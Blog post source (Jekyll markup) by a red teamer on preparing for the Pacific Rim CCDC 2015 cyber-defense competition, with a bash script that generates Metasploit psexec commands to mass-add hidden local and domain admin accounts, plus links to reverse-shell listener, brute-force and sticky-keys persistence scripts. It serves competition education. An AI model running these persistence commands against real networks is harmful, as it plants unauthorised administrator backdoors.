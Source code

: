 ```yaml
---
layout: post
title: How I Prepared to Red Team at PRCCDC 2015
category: 
year: 2015
month: 4
day: 15
published: true
summary: A bit about how I prepared for the Pacific Rim CCDC 2015 competition
---
```

     
<div class="row">  
     <div class="span9 columns">


<p>I had the opportunity to take part in the Pacific Rim CCDC this past weekend and it was a BLAST! It was my first CCDC, so I really didn't know what to expect. I did know that the last thing I would want to be doing is installing and configuring tools during test time.

<br><br><h3>Kali</h3>
<p>I err'd on the side of installing tools I may not use rather than not installing something I would need. I've got a goto script I use for my setting up a Kali VM and customizing. It installs a ton of tools and scripts that I use. The script can be found <a href="https://github.com/bluscreenofjeff/CCDC-Scripts/blob/master/kali_setup.sh">here</a>.


<p>Then, I made some manual tweaks:
<ul><li>Change root password</li>
<li>Enable autologin within <code>/etc/gdm3/daemon.conf</code></li>
<li>Disable screen lockout</li>
<li>Add Leafpad and Screenshot to taskbar</li>
<li>Alias <code>msfconsole='msfconsole -r /msfconsole.rc'</code></li>
<li>Add <code>* * * * * /payload_gen.sh</code> to crontab</li>
</ul>
<p>Next up was loading up on wordlists. I rounded up the usual suspects (Cain, John, RockYou, etc) but I knew I would want to add some inconspicuous user accounts and mess with the Blue Team's host file. To accomodate, I found lists of the top 10,000 US last names and internet domain names. I ended up just whipping up a slightly taunting list of 10 usernames that I used day of, but if I needed 10k usernames I had them.

<p>I wrote a quick bash script to create a Metasploit resource script and batch file that creates new local users and add them to the local admin group for persistence sake.
{% highlight bash lineanchors %}
#!/bin/bash
#by bluescreenofjeff
IFS=$'\n'
USERLISTFILE='/root/Desktop/users.txt'
PASSVAR='StrongPassword1'
OUTFILELOCAL='mass_user_add_local.rc'
OUTBATLOCAL='mass_user_add_local.bat'
OUTFILEDOMAIN='mass_user_add_domain.rc'
OUTBATDOMAIN='mass_user_add_domain.bat'

#BAT Output - local
for CURRUSER in `cat $USERLISTFILE`
do
	echo net user $CURRUSER /add /active:yes\ >> $OUTBATLOCAL
	echo net user $CURRUSER $PASSVAR >> $OUTBATLOCAL
	echo net localgroup  administrators $CURRUSER  /add >> $OUTBATLOCAL
done

#BAT to RC - local
echo 'use auxiliary/admin/smb/psexec_command' >> $OUTFILELOCAL
for EACH in `cat $OUTBATLOCAL`
do
	echo set command \" $EACH \" >> $OUTFILELOCAL
	echo run >> $OUTFILELOCAL
done


#BAT Output - domain
for CURRUSER in `cat $USERLISTFILE`
do
	echo net user $CURRUSER /add /active:yes /domain >> $OUTBATDOMAIN
	echo net user $CURRUSER $PASSVAR /domain >> $OUTBATDOMAIN
	echo net localgroup  administrators $CURRUSER  /add /domain >> $OUTBATDOMAIN
	echo net group "Enterprise Admins"  $CURRUSER /add /domain >> $OUTBATDOMAIN
	echo net group "Enterprise Admins"  $CURRUSER /add /domain >> $OUTBATDOMAIN
done

#BAT to RC - domain
echo 'use auxiliary/admin/smb/psexec_command' >> $OUTFILEDOMAIN
for EACH in `cat $OUTBATDOMAIN`
do
	echo set command \" $EACH \" >> $OUTFILEDOMAIN
	echo run >> $OUTFILEDOMAIN
done
{% endhighlight %}
<a href="https://github.com/bluscreenofjeff/CCDC-Scripts/blob/master/mass_user_add_generator.sh">Source</a>

<br><br>
<h3>Metasploit</h3>
<p>Most of the Red Teamers used Cobalt Strike Team Servers as their base of operations, but since I haven't used it that much and didn't want to potentially get shut out of my target boxes because of learning curve. I decided to stick with msfconsole as my main tool for the weekend. My main goal in preparation was to get as much of the time-wasting stuff automated as possible.


<p><a href="https://github.com/bluscreenofjeff/Metasploit-Resource-Scripts/blob/master/intel.rc">intel.rc</a> - Runs a number of intel-gathering Windows commands. Run from the Meterpreter prompt.
<p><a href="https://github.com/bluscreenofjeff/Metasploit-Resource-Scripts/blob/master/bounce.rc">bounce</a> - Restarts a reverse_tcp listener on 443.
<p><a href="https://github.com/bluscreenofjeff/Metasploit-Resource-Scripts/blob/master/bouncessl.rc">bouncessl</a> - Restarts a reverse_https listener on 443.
<p><a href="https://github.com/bluscreenofjeff/Metasploit-Resource-Scripts/blob/master/local500.rc">local500.rc</a> - Sets up for a brute force of the built-in 500 accounts. Modify with <code>file:///path/to/wordlist</code> on line 4.
<p><a href="https://github.com/bluscreenofjeff/Metasploit-Resource-Scripts/blob/master/winpersist.rc">winpersist.rc</a> - Sets up sticky keys, utilman, and display persistence using psexec_command.
<p><a href="https://github.com/bluscreenofjeff/Metasploit-Resource-Scripts/blob/master/winpersist.rc">msfconsole.rc</a> - msfconsole startup script. Reference the file path in the alias above. This gets written by the script above


<br><br>
<h3>Commands</h3>
<p>The biggest prep item was getting a solid copy/paste command list ready. This was a big focus point of the Red Team this year since the goal was to attack Blue Teams with the same attacks at roughly the same times. The command list has been reposted by Action Dan <a href="http://lockboxx.blogspot.com/2015/03/red-teaming-at-prccdc-2015.html">here</a>. 

<p>In the time leading up to the official start, I pasted every single command from Phase 1's attacks into their own consoles so once the Red Team gets the go-ahead all you have to do is hit enter. 




<br><br>
<h3>Defacement</h3>
<p>Though this was my first rodeo, I knew that there would be opportunities to deface some web interfaces and I wanted to be ready to bring some lulz. This is what I settled on:
<img src="{{site.url}}/assets/prccdc2015-defacement.gif">
<a href="https://github.com/bluscreenofjeff/CCDC-Scripts/tree/master/website-defacement">Source</a>

<p>Looking back now, I should have also gathered some nice gifs about patching or host hardenening.
     

<br><br>
<h3>Prepping for Next Year</h3>
<p>As I mentioned I had a blast this year and hope to attend again next year. Before then there are a few scripts I'd like to have written and in-hand before go-time:
<ul>
	<li><b>ndiff to monitor environment</b> - Before this year I started tweaking this script from the nmap documentation to diff periodic scans and monitor for network changes. I didn't get it polished enough and now am wondering if it's the best way to get what I'm after, but I'd like to be able to monitor the Blue Team's environment as close to realtime as possible. Spot new hosts, identify restarts, etc.</li>
	<li><b>Low-hanging fruit scans</b> - Along the same lines, I would like a way to constantly check for previously used credentials, previously exploited vulns, etc to try and catch systems when they get reverted. </li>
	<li><b>Script to remove users from admin groups</b> - This is something my Red cell team manually did this year. We got Domain Admin access and once the final phase of wreaking havoc was called on we ran the resource script to remove all DAs from the Domain Admin, Enterprise Admin, Schema Admin, and Remote Desktop user groups. It would have been much easier to have a script to make that resource script. Simple enough.</li>
	<li><b>moar lulz</b> - Somewhere around the middle of Phase 2 my co-Red cell teamer and I were watching some Boos from Super Mario Bros. chasing the Blue Teamer's mouse and causing them much frustration while trying to write a Disaster Recovery Plan. That was a lot of fun. I'd like to find some more ways to make our presence known to the Blue Teamers without being too destructive and watch them try to remediate us out. VNC, replaced sysinternals tools, things like that would be fun...</li></ul>

<p>If I had to give one piece of advice to a first time Red Teamer, my suggestion is to prepare as much as possible. The LAST thing you want to be doing during the competition is Googling how to run an exploit or how to add yourself to the local admin group. That's not to say you'll avoid it completely-- you most likely won't -- but you want to minimize searching time down to things that are unique to the environment at hand. Automate the basic stuff that takes time, copy/paste the rest.
     
     </div>
</div>
<div id="disqus_thread"></div>
<script type="text/javascript">
    /* * * CONFIGURATION VARIABLES * * */
    var disqus_shortname = 'bluscreenofjeff';
    
    /* * * DON'T EDIT BELOW THIS LINE * * */
    (function() {
        var dsq = document.createElement('script'); dsq.type = 'text/javascript'; dsq.async = true;
        dsq.src = '//' + disqus_shortname + '.disqus.com/embed.js';
        (document.getElementsByTagName('head')[0] || document.getElementsByTagName('body')[0]).appendChild(dsq);
    })();
</script>
<noscript>Please enable JavaScript to view the <a href="https://disqus.com/?ref_noscript" rel="nofollow">comments powered by Disqus.</a></noscript>
<div class="row">
     <div class="span9 column">
          <p class="pull-right">{% if page.previous.url %} <a href="{{page.previous.url}}" title="Previous Post: {{page.previous.title}}"><i class="icon-chevron-left"></i></a>     {% endif %}   {% if page.next.url %}    <a href="{{page.next.url}}" title="Next Post: {{page.next.title}}"><i class="icon-chevron-right"></i></a>     {% endif %} </p>  
     </div>
</div>
<script>
  (function(i,s,o,g,r,a,m){i['GoogleAnalyticsObject']=r;i[r]=i[r]||function(){
  (i[r].q=i[r].q||[]).push(arguments)},i[r].l=1*new Date();a=s.createElement(o),
  m=s.getElementsByTagName(o)[0];a.async=1;a.src=g;m.parentNode.insertBefore(a,m)
  })(window,document,'script','//www.google-analytics.com/analytics.js','ga');

  ga('create', 'UA-61938642-1', 'auto');
  ga('send', 'pageview');

</script>